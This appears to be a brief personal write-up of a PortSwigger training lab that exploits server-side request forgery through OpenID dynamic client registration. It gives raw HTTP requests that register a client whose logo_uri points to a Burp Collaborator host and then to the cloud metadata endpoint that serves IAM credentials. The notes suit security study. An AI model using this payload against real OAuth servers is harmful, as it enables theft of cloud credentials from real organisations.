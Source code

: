 


Collaborator portion 
Add collaborator as the logo uri
Copy client ID
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/3bdfd9e9-5350-4d09-a019-e156ae450b71)


Add to the /reg 
poll
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/e162e24d-c741-4eee-a619-a3db76a4c22f)


```
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://BURP-COLLABORATOR-SUBDOMAIN"
}
```

Go back and replaced with the given logo_uri that as given to us

```
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```

From <https://portswigger.net/web-security/oauth/openid/lab-oauth-ssrf-via-openid-dynamic-client-registration> 
```
POST /reg HTTP/1.1
Host: oauth-YOUR-OAUTH-SERVER.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/cda12b00-a526-42b5-83b4-693ca17561f0)





Copy client id
```
Vve5eJ1I13_KnQQ4vHnFn
```
